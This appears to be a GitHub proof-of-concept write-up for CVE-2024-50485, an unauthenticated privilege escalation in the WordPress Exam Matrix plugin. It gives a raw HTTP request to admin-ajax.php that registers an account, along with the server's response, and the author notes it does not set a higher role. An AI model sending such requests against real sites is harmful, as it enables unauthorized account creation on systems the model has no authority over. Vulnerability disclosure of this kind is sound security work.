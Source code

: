 # CVE-2024-50485
Exam Matrix &lt;= 1.5 - Unauthenticated Privilege Escalation

# Description:
The Exam Matrix plugin for WordPress is vulnerable to privilege escalation in all versions up to, and including, 1.5. This is due to the plugin not properly restricting functionality that makes it possible for unauthenticated users to register as a higher privileged role. This makes it possible for unauthenticated attackers to gain higher access privileges such as administrative.

```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50485
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: exam-matrix
```

This just lets you register as a user on here there is no option to change the role.

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/plugins.php?plugin_status=all&paged=1&s
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 133
Origin: http://kubernetes.docker.internal
Connection: keep-alive

action=register_action&username=admin2&mail_id=test@test1.com&firname=John&lasname=Doe&address=123%20Main%20St&passwrd=securepassword
```

Response
--
```
goToImageUpload
```
